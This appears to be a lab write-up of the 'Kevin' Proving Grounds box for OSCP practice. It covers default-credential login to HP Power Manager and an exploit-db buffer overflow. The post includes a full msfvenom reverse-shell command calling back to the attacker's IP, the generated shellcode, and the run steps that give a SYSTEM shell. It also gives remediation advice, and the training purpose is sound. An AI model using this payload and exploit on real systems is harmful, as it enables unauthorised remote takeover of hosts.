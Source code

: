 ```yaml
---
layout: writeup
title: Kevin - Proving Grounds
date: 2024-07-30 13:32:20 +0300
description: A Writeup of the Kevin Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusunagi]
---
```


Alrighty, let’s get started with another [Proving Grounds](https://www.offsec.com/labs/) box from TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)as well as LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Kevin, and it's rated Easy by Proving Grounds and Easy by the community. Hopefully I can validate that rating. As usual, I get started with an nmap scan: 

```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
```

So we have a number of open ports here, though only a few of them are realistically going to be exploitable I suspect. I quickly check to see if we can list SMB shares and see if we can log into rpcclient, but we cannot, so I go check out the web page. It looks like there is a web app on port 80 called HP Power Manager:

![Kevin1.png](/assets/images/Kevin/Kevin1.png){: .center-aligned width="600px"}

There is a potential exploit on [exploit-db](https://www.exploit-db.com/exploits/10099), but I try `admin:admin` first. 

![Kevin2.png](/assets/images/Kevin/Kevin2.png){: .center-aligned width="600px"}

And we are able to log in. I click around, but can't find anything, though I do find the version is listed as 4.2. 

![Kevin3.png](/assets/images/Kevin/Kevin3.png){: .center-aligned width="600px"}

At this point I go back to the exploit-db script and copy it into my home folder. When reviewing the script, we see a that we need to replace some shell code with new code so that it calls back to our machine, and we notice this line describing the encoding:

![Kevin4.png](/assets/images/Kevin/Kevin4.png){: .center-aligned width="600px"}

[This](https://www.offsec.com/metasploit-unleashed/alphanumeric-shellcode/) from Proving Grounds explains how to generate shellcode in this format, so we do that. We also need to take note that that code needs to be in C format `-f c`, which can be confusing because the exploit is written in python (you can see this if you find it with searchsploit, the format is `.py`). I got stuck here, and wound up trying a bunch of other exploits I found online. The full command is: `msfvenom -p windows/shell_reverse_tcp -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.45.183 LPORT=80 -e x86/alpha_mixed -f c` which results in this code:

```
"\x89\xe7\xd9\xcf\xd9\x77\xf4\x59\x49\x49\x49\x49\x49\x49"
"\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5a"
"\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41"
"\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42"
"\x75\x4a\x49\x69\x6c\x59\x78\x6c\x42\x45\x50\x63\x30\x55"
"\x50\x75\x30\x6e\x69\x49\x75\x35\x61\x6f\x30\x35\x34\x4e"
"\x6b\x46\x30\x36\x50\x4c\x4b\x66\x32\x54\x4c\x6c\x4b\x73"
"\x62\x62\x34\x4e\x6b\x63\x42\x34\x68\x36\x6f\x4c\x77\x62"
"\x6a\x76\x46\x35\x61\x6b\x4f\x4c\x6c\x57\x4c\x55\x31\x31"
"\x6c\x73\x32\x74\x6c\x55\x70\x59\x51\x48\x4f\x36\x6d\x75"
"\x51\x4b\x77\x6a\x42\x49\x62\x53\x62\x56\x37\x6e\x6b\x63"
"\x62\x44\x50\x4c\x4b\x43\x7a\x37\x4c\x6c\x4b\x42\x6c\x56"
"\x71\x73\x48\x4a\x43\x72\x68\x47\x71\x7a\x71\x53\x61\x4e"
"\x6b\x53\x69\x31\x30\x76\x61\x48\x53\x4c\x4b\x63\x79\x75"
"\x48\x38\x63\x34\x7a\x62\x69\x6e\x6b\x50\x34\x6e\x6b\x45"
"\x51\x38\x56\x44\x71\x69\x6f\x6c\x6c\x39\x51\x6a\x6f\x66"
"\x6d\x66\x61\x58\x47\x77\x48\x6d\x30\x43\x45\x5a\x56\x55"
"\x53\x51\x6d\x38\x78\x47\x4b\x31\x6d\x74\x64\x31\x65\x59"
"\x74\x31\x48\x6e\x6b\x52\x78\x57\x54\x37\x71\x38\x53\x52"
"\x46\x6c\x4b\x76\x6c\x42\x6b\x6e\x6b\x52\x78\x45\x4c\x35"
"\x51\x68\x53\x6c\x4b\x47\x74\x4e\x6b\x47\x71\x48\x50\x4f"
"\x79\x67\x34\x31\x34\x66\x44\x63\x6b\x71\x4b\x70\x61\x76"
"\x39\x33\x6a\x46\x31\x59\x6f\x6d\x30\x51\x4f\x43\x6f\x63"
"\x6a\x4c\x4b\x74\x52\x38\x6b\x6e\x6d\x71\x4d\x33\x58\x70"
"\x33\x46\x52\x57\x70\x33\x30\x61\x78\x72\x57\x44\x33\x37"
"\x42\x63\x6f\x61\x44\x72\x48\x52\x6c\x52\x57\x74\x66\x35"
"\x57\x49\x6f\x59\x45\x68\x38\x7a\x30\x55\x51\x35\x50\x37"
"\x70\x54\x69\x49\x54\x50\x54\x50\x50\x55\x38\x71\x39\x4f"
"\x70\x42\x4b\x67\x70\x39\x6f\x59\x45\x46\x30\x62\x70\x42"
"\x70\x66\x30\x63\x70\x62\x70\x71\x50\x42\x70\x71\x78\x48"
"\x6a\x76\x6f\x4b\x6f\x59\x70\x69\x6f\x6b\x65\x4d\x47\x62"
"\x4a\x44\x45\x65\x38\x49\x50\x6f\x58\x74\x6d\x68\x37\x42"
"\x48\x37\x72\x45\x50\x43\x30\x46\x30\x6f\x79\x78\x66\x73"
"\x5a\x36\x70\x62\x76\x51\x47\x35\x38\x6f\x69\x39\x35\x30"
"\x74\x31\x71\x79\x6f\x38\x55\x6f\x75\x39\x50\x72\x54\x56"
"\x6c\x69\x6f\x42\x6e\x67\x78\x51\x65\x4a\x4c\x63\x58\x4a"
"\x50\x68\x35\x4c\x62\x66\x36\x49\x6f\x4e\x35\x72\x48\x65"
"\x33\x50\x6d\x71\x74\x55\x50\x4b\x39\x39\x73\x73\x67\x30"
"\x57\x46\x37\x35\x61\x59\x66\x43\x5a\x44\x52\x30\x59\x73"
"\x66\x79\x72\x4b\x4d\x31\x76\x38\x47\x63\x74\x75\x74\x75"
"\x6c\x57\x71\x57\x71\x6e\x6d\x50\x44\x76\x44\x32\x30\x7a"
"\x66\x65\x50\x43\x74\x56\x34\x46\x30\x53\x66\x71\x46\x62"
"\x76\x33\x76\x32\x76\x30\x4e\x61\x46\x36\x36\x31\x43\x73"
"\x66\x52\x48\x31\x69\x6a\x6c\x55\x6f\x6b\x36\x4b\x4f\x4a"
"\x75\x6f\x79\x49\x70\x62\x6e\x31\x46\x51\x56\x49\x6f\x50"
"\x30\x32\x48\x75\x58\x6d\x57\x37\x6d\x31\x70\x4b\x4f\x68"
"\x55\x6f\x4b\x48\x70\x4f\x45\x6c\x62\x52\x76\x71\x78\x79"
"\x36\x6a\x35\x6f\x4d\x4f\x6d\x59\x6f\x4a\x75\x67\x4c\x55"
"\x56\x61\x6c\x54\x4a\x6d\x50\x79\x6b\x59\x70\x72\x55\x76"
"\x65\x4f\x4b\x31\x57\x45\x43\x70\x72\x62\x4f\x51\x7a\x35"
"\x50\x61\x43\x6b\x4f\x6a\x75\x41\x41"
```

So we add that to directly below "n00bn00b" (line 42). Note, the output of the msfvenom command includes a `;` - do not include this in the exploit. After that, we run the command `python2 10099.py 192.168.157.45`. 

*Note that this is a buffer overflow exploit, and if you use the wrong port or something, you will have to revert the machine because the exploit can only be run once. This is often the case for Buffer Overflow exploits.*

And it takes a while (under a minute), but eventually we get a shell. 

![Kevin5.png](/assets/images/Kevin/Kevin5.png){: .center-aligned width="600px"}

And it's already a `NT Authority\System` shell, so we grab `proof.txt` and we're done. 

#### Remediation Steps
Update the HP Power Manager instance to a non-vulnerable version, and furthermore have a different account running the application, so that in the event that it does get exploited, it won't be a admin shell. 

#### Lessons Learned
It's a pretty simple box if you do it right, but it actually took a while to figure some things out. You need to also understand what kind of shell code you are generating. In the exploit-db script, you need to generate shell code in C, even though the exploit itself (and the file in searchsploit) is written in python. That can be confusing. 

The last thing I would say is that I tried some other exploits I found online, and I couldn't get any of them working. I even saw a writeup that linked them ([python2](https://github.com/Muhammd/HP-Power-Manager) and [python3](https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3)) and said they used them. I tried for a while after I completed the box, but I was never able to do it, maybe because they use bind shells, which may have been copied from a metasploit exploit. Regardless, it was frustrating for an easy box. Like I said, if you get everything right the first time, this box shouldn't take long, but it can drag. 
